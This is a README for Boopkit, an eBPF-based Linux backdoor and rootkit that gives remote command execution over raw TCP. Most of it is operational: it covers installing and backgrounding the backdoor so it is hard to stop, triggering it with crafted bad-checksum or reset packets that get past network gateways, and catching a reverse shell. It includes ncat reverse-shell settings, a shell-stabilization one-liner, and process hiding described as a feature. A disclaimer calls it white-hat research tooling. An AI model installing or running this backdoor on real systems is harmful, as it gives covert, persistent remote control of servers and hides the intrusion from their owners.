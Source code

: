 # Boopkit

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
git clone https://github.com/kris-nova/boopkit.git
cd boopkit
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background without output

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit &> /dev/null &
```

Boopkit is now running and will automatically try to reverse connect to any source that is booping the server!

## Client Side

Download and build boopkit.

```bash
git clone https://github.com/kris-nova/boopkit.git
cd boopkit
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
    boopkit-boop \
      -lhost $LHOST \
      -lport $LPORT \
      -rhost $RHOST \
      -rport $RPORT \
      -x "$RCE"
```

# Remote Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. In theory this would work against a server that has no TCP services listening!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
# Remote values
RHOST="127.0.0.1"
RPORT="22"
# Local values
LHOST="127.0.0.1"
LPORT="3535"
# NetCat Reverse Shell Values
NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang'
 - `bpftool`
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References 

Credit to the original authors for their helpful code samples! I forked a lot of code for this project!

 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)
